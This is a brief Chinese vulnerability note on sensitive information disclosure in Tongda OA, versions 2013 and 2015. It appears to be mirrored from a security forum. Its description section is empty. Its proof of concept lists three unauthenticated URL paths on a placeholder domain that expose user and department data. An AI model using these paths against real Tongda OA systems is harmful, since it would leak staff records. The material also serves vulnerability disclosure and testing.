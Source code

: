 # 通达oa ⻚面敏感信息泄露

> 原文：[https://www.zhihuifly.com/t/topic/3334](https://www.zhihuifly.com/t/topic/3334)

# 通达oa ⻚面敏感信息泄露

## 一、漏洞简介

## 二、漏洞影响

2013、2015版本

## 三、复现过程

POC:

```
http://0-sec.org/general/get_userinfo.php
http://0-sec.org/general/ipanel/user/query.php
http://0-sec.org/general/info/dept/ 
```
